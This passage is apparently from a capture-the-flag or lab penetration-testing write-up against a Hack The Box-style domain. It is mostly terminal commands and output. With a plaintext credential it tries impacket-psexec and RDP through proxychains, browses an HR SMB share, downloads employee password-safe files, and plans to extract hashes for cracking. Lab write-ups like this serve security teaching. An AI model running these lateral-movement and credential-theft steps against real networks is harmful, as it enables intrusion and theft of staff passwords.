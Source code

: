 ```
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HR              Disk      
        IPC$            IPC       Remote IPC
        IT              Disk      
        MANAGEMENT      Disk      
        PRIVATE         Disk      
        TRANSFER        Disk    
--SNIP--

th@ddeu$ sudo proxychains impacket-psexec NEXURA/hwilliam:dealer-screwed-gym1@172.16.119.10
--SNIP--
[*] Requesting shares on 172.16.119.10.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share HR
[*] Uploading file YDuMZAjX.exe
[*] Opening SVCManager on 172.16.119.10.....
[-] Error opening SVCManager on 172.16.119.10.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
--SNIP--


th@ddeu$ proxychains xfreerdp /v:172.16.119.10 /d:nexura.htb /u:hwilliam /p:'dealer-screwed-gym1' /cert:ignore /dynamic-resolution /drive:linux,/home/th/filetransfer
--SNIP--
[14:04:26:177] [315880:315882] [ERROR][com.freerdp.core.transport] - BIO_read returned a system error 0: Success
[14:04:26:177] [315880:315882] [ERROR][com.freerdp.core] - transport_read_layer:freerdp_set_last_error_ex ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.119.10:3389  ...  OK
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core.transport] - BIO_read returned a system error 0: Success
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core] - transport_read_layer:freerdp_set_last_error_ex ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core] - freerdp_post_connect failed

```
As we can see our remote access attempts did not work, so were just gonna take a look around the shares to see if theres anything of interest there. In the interest of time. This is an unprivileged user so i couldnt access the C$ or ADMIN$ shares so in the interest of brevity im gonna skip to the one that actually worked. 
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\hwilliam%dealer-screwed-gym1" //172.16.119.10/HR
smb: \> dir                                                                                    
  .                                   D        0  Wed Jul 16 13:58:02 2025
  ..                                  D        0  Wed Jul 16 13:58:02 2025
  2024                                D        0  Tue Apr 29 11:08:16 2025
  2025                                D        0  Tue Apr 29 11:07:24 2025    
  Archive                             D        0  Tue Apr 29 11:10:24 2025
smb: \> cd Archive                    
smb: \Archive\> dir                                                                         
--SNIP--                 
  Employee-Passwords_OLD.plk          A       48  Tue Apr 29 10:13:43 2025
  Employee-Passwords_OLD.psafe3       A     1080  Tue Apr 29 10:09:57 2025                     
  Employee-Passwords_OLD_011.ibak      A      856  Tue Apr 29 10:10:02 2025
  Employee-Passwords_OLD_012.ibak      A      904  Tue Apr 29 10:10:04 2025
  Employee-Passwords_OLD_013.ibak      A      952  Tue Apr 29 10:10:07 2025
--SNIP--
smb: \Archive\> mget Employee-Passwords*
```
From here, doing some research into the psafe3 filestype uncovers a 2john tool that we can use on the file to extract hashes for cracking
```
```